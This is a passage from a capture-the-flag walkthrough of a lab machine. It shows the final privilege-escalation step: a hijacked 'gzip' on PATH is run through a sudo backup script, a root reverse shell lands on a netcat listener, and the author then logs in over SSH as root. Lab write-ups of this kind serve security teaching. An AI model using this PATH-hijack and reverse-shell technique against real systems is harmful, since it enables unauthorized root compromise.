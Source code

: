 Now when the script goes to call `gzip`, the first one it will find is mine and run it. I’ll start `nc` and run:

```

m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh

```

It hangs, but at `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.104] 53814
root@previse:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)

```

Also, I’m authorized to connect as root over SSH:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.104
...[snip]...
root@previse:~# 

```

Either way, I can grab `root.txt`:

```

root@previse:~# cat root.txt
94b864e9************************

```

## Beyond Root

### sudo Default Configs

When I run `sudo -l` on my hacking VM:

```

oxdf@parrot$ sudo -l
Matching Defaults entries for oxdf on hacky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oxdf may run the following commands on hacky:
    (ALL) NOPASSWD: ALL

```
